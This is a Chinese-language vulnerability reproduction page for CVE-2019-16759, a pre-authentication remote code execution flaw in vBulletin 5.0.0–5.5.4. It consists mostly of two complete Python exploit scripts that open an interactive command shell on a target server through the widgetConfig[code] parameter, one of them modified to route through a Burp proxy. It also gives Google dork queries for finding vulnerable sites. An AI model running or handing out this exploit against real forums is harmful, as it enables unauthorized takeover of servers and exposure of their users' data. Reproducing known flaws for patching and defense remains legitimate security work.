

# （CVE-2019-16759）vBulletin 5.x 0day pre-auth RCE exploit

> 原文：[http://book.iwonder.run/0day/vBulletin/1.html](http://book.iwonder.run/0day/vBulletin/1.html)

## 一、漏洞简介

## 二、漏洞影响

影响版本：vBulletin 5.0.0~5.5.4

## 三、复现过程

```
poc 如下:

#!/usr/bin/python

#

# vBulletin 5.x 0day pre-auth RCE exploit

#

# This should work on all versions from 5.0.0 till 5.5.4

#

# Google Dorks:

# - site:*.vbulletin.net

# - "Powered by vBulletin Version 5.5.4"

import requests

import sys

if len(sys.argv) != 2:

   sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

params = {"routestring":"ajax/render/widget_php"}

while True:

    try:

         cmd = raw_input("vBulletin$ ")

         params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"

         r = requests.post(url = sys.argv[1], data = params)

         if r.status_code == 200:

              print r.text

         else:

              sys.exit("Exploit failed! :(")

    except KeyboardInterrupt:

         sys.exit(" Closing shell...")

    except Exception, e:

         sys.exit(str(e)) 
```

将 poc 代码修改为 python3 使用的代码，并添加代理使用 burpsuite 抓包。修改的 poc 代码如下：

```
# -*-coding:utf-8 -*-

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200:
               print(r.text)

          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception as e:
          sys.exit(str(e)) 
```

远程代码执行漏洞的触发点是未经过验证的用户通过向 index.php 发送 routestring 参数，当 routesting 参数是 ajax/render/widget_php，通过 widgetConfig[code]执行远程代码，格式为 echo shell_exec('"+cmd+"'); exit;



